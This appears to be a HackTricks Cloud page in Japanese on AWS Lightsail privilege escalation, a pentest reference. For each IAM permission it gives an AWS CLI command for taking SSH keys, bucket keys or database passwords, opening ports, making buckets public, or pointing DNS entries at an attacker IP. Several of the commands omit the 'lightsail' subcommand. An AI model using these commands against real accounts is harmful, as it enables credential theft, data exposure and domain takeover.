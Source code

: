 # AWS - Lightsail Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Lightsail

Lightsailに関する詳細情報は、以下を確認してください：

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsailは**ユーザーに属するIAMロールを使用しない**が、AWS管理アカウントに属するため、このサービスを利用して権限昇格を悪用することはできません。しかし、**コード、APIキー、データベース情報**などの**機密データ**がこのサービスに存在する可能性があります。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

この権限により、インスタンスにアクセスするためのSSHキーを取得できます：
```
aws lightsail download-default-key-pair
```
**潜在的な影響:** インスタンス内の機密情報を見つける。

### `lightsail:GetInstanceAccessDetails`

この権限を使用すると、インスタンスにアクセスするためのSSHキーを生成できます：
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在的な影響:** インスタンス内の機密情報を見つける。

### `lightsail:CreateBucketAccessKey`

この権限を使用すると、バケットにアクセスするためのキーを取得できます:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在的な影響:** バケット内の機密情報を見つける。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

この権限を使用すると、データベースにアクセスするための資格情報を取得できます。
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在的な影響:** データベース内の機密情報を見つける。

### `lightsail:UpdateRelationalDatabase`

この権限により、データベースにアクセスするためのパスワードを変更できます：

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

データベースが公開されていない場合、次の権限を使用して公開することもできます。

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在的な影響:** データベース内の機密情報を見つける。

### `lightsail:OpenInstancePublicPorts`

この権限は、ポートをインターネットに開放することを許可します。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在的な影響:** 機密ポートへのアクセス。

### `lightsail:PutInstancePublicPorts`

この権限は、ポートをインターネットに開放することを許可します。指定されていないポートは閉じられることに注意してください。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在的な影響:** 機密ポートへのアクセス。

### `lightsail:SetResourceAccessForBucket`

この権限は、追加の資格情報なしでインスタンスにバケットへのアクセスを付与することを可能にします。

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在的な影響:** 機密情報を含むバケットへの新しいアクセスの可能性。

### `lightsail:UpdateBucket`

この権限を持つ攻撃者は、自分のAWSアカウントにバケットへの読み取りアクセスを付与したり、バケットを誰でも公開にすることができます:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在的な影響:** 機密情報を含むバケットへの新たなアクセスの可能性。

### `lightsail:UpdateContainerService`

この権限を持つ攻撃者は、コンテナサービスからプライベートECRへのアクセスを付与することができます。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在的な影響:** プライベートECRから機密情報を取得する

### `lightsail:CreateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、自分のIPアドレスにポイントすることができる（サブドメインの乗っ取り）、またはSPFレコードを作成してドメインからのメールを偽装することを許可することができる、さらにはメインドメインを自分のIPアドレスに設定することもできる。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的な影響:** ドメインの乗っ取り

### `lightsail:UpdateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、自分のIPアドレスにポイントさせることができる（サブドメインの乗っ取り）、または自分がドメインからのメールを偽装できるようにSPFレコードを作成することができる、さらにはメインドメインを自分のIPアドレスに設定することもできる。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的影響:** ドメインの乗っ取り

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
